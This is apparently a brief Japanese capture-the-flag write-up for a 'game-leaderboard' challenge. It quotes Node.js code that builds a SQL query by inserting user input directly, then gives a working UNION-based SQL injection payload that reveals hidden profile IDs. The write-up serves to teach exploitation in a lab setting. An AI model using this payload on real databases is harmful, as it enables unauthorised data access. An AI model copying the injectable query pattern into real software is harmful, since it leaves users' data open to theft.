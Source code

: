 # game-leaderboard

```js
app.get('/user/:userID', (req, res) => {
    const leaderboard = getLeaderboard()
    const total = leaderboard.length

    const profile = leaderboard.find(x => x.profile_id == req.params.userID)
    if (typeof profile === 'undefined') {
        return res.render('user_info', { notFound: true })
    }

    const flag = (profile.rank === 1) ? FLAG : 'This is reserved for winners only!'
    return res.render('user_info', { total, flag, ...profile })
})
```

ソースコードを見るとuserIDのrankが1であればflagが入手できることがわかる

しかしuserIDがわからない

SQLi出来そうな箇所があるのでuserID(profile_id)を入手

```js
const where = (typeof minScore !== 'undefined' && minScore !== '') ? ` WHERE score > ${minScore}` : ''
const query = `SELECT profile_id, name, score FROM leaderboard${where} ORDER BY score DESC`
const stmt = db.prepare(query)
```

`-1000 union all select score, name, profile_id from leaderboard --`

(後ろ2つのカラムがフロントに表示されるのでprofile_idの位置を元のクエリと変更している)
